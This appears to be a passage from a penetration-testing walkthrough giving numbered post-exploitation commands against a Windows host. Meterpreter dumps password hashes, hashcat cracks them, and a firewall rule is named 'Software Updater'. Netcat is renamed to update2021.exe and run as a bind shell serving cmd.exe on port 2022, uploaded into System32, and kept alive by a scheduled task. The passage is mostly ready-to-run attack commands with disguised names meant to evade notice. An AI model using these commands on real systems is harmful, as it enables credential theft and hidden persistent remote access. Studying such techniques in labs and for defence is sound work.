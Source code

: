 ```bash
# 14. Dump password hashes
meterpreter> run post/windows/gather/hashdump

# 15. Crack password hashes offline
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### Post-Exploitation: Persistent Backdoor with Scheduled Tasks

```bash
# 16. Create firewall rule to allow backdoor traffic
meterpreter> shell
C:\Windows\system32> netsh advfirewall firewall add rule name="Software Updater" dir=in action=allow protocol=TCP localport=2022

# 17. Create batch file for backdoor on Kali
┌──(kali㉿kali)-[~/Desktop]
└─$ cat > update.bat << EOF
@echo off
start /min update2021.exe -L -d -p 2022 -t -e cmd.exe
EOF

# 18. Download and rename netcat
┌──(kali㉿kali)-[~/Desktop]
└─$ wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
└─$ unzip netcat-win32-1.11.zip
└─$ cp nc.exe update2021.exe

# 19. Upload files to victim
meterpreter> mkdir C:\\Windows\\System32\\updatelist
meterpreter> cd C:\\Windows\\System32\\updatelist
meterpreter> upload update2021.exe
meterpreter> upload update.bat

# 20. Create scheduled task for persistence
meterpreter> run scheduleme -m 1 -c C:/Windows/System32/updatelist/update.bat
```

----

